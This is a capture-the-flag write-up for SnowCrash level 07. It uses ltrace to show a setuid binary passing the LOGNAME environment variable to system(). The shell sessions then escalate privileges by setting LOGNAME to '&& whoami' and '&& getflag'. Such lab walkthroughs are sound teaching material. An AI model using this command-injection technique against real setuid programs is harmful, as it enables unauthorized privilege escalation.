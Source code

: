 # LEVEL 07

## Vulnerability & exploit

System call by privileged user to echo env variable -> Privilege escalation via env variable

## Eternal resources

ltrace

## Initial context

In our home directory, we see an executable with suid/guid

```
level07@SnowCrash:~$ ls -la level07
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

## Solving the challenge

Let's try to understand what the program does by using the ltrace debugger:

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                       = 2007
geteuid()                                                       = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)             = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)             = 0
getenv("LOGNAME")                                               = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                          = 0
+++ exited (status 0) +++
```

We see that the program gets the environment variable LOGNAME.
Let's check its value and what happens if we change it:

```
level07@SnowCrash:~$ echo $LOGNAME
level07
level07@SnowCrash:~$ export LOGNAME="hello"
level07@SnowCrash:~$ ./level07
hello
```

We can deduce that the system call to /bin/echo is meant to display the value of LOGNAME.
This means that by changing this value, we can trick the program into executing a second command after /bin/echo.
This is a vulnerability, since the file as suid bit and therefore will run any command as user flag07:

```
level07@SnowCrash:~$ export LOGNAME="&& whoami"
level07@SnowCrash:~$ ./level07

flag07
```

So injecting getflag should yield the desired result:

```
level07@SnowCrash:~$ export LOGNAME="&& getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXXX
```
